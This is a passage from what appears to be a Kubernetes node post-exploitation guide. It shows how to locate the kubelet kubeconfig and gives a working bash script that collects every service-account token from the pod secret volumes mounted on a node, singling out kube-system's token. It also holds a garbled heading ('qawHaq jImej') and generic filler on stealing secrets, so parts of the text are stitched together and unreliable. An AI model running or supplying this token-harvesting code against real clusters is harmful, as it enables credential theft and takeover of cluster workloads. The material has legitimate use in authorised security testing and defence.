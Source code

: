 * `/etc/kubernetes/pki` - **Kubernetes Key**

### Find node kubeconfig

If you cannot find the kubeconfig file in one of the previously commented paths, **check the argument `--kubeconfig` of the kubelet process**:
```
ps -ef | grep kubelet
root        1406       1  9 11:55 ?        00:34:57 kubelet --cloud-provider=aws --cni-bin-dir=/opt/cni/bin --cni-conf-dir=/etc/cni/net.d --config=/etc/kubernetes/kubelet-conf.json --exit-on-lock-contention --kubeconfig=/etc/kubernetes/kubelet-kubeconfig --lock-file=/var/run/lock/kubelet.lock --network-plugin=cni --container-runtime docker --node-labels=node.kubernetes.io/role=k8sworker --volume-plugin-dir=/var/lib/kubelet/volumeplugin --node-ip 10.1.1.1 --hostname-override ip-1-1-1-1.eu-west-2.compute.internal
```
### qawHaq jImej

{:.box-warning}
**Warning:** qawHaq jImej involves unauthorized access and is illegal. This section is for educational purposes only.

To steal secrets from within a Kubernetes pod, you can use various techniques:

#### 1. Environment Variables

If the secrets are stored as environment variables within the pod, you can access them by running commands within the pod's container. Use the `env` command to list all environment variables and look for any sensitive information.

#### 2. Mounted Volumes

If the secrets are mounted as volumes within the pod, you can access them by exploring the mounted directories. Use the `ls` command to list the contents of the mounted directories and look for any sensitive files.

#### 3. API Access

If the pod has access to the Kubernetes API, you can use the API to retrieve secrets. Use the appropriate API endpoint and authentication method to access the secrets.

#### 4. Exploiting Vulnerabilities

If the pod or the underlying container runtime has any vulnerabilities, you can exploit them to gain unauthorized access and steal secrets. Research and exploit any known vulnerabilities in the pod or container runtime.

Remember to always obtain proper authorization before attempting any hacking techniques.
```bash
# Check Kubelet privileges
kubectl --kubeconfig /var/lib/kubelet/kubeconfig auth can-i create pod -n kube-system

# Steal the tokens from the pods running in the node
# The most interesting one is probably the one of kube-system
ALREADY="IinItialVaaluE"
for i in $(mount | sed -n '/secret/ s/^tmpfs on \(.*default.*\) type tmpfs.*$/\1\/namespace/p'); do
TOKEN=$(cat $(echo $i | sed 's/.namespace$/\/token/'))
if ! [ $(echo $TOKEN | grep -E $ALREADY) ]; then
ALREADY="$ALREADY|$TOKEN"
echo "Directory: $i"
echo "Namespace: $(cat $i)"
echo ""
echo $TOKEN
echo "================================================================================"
echo ""
fi
done
```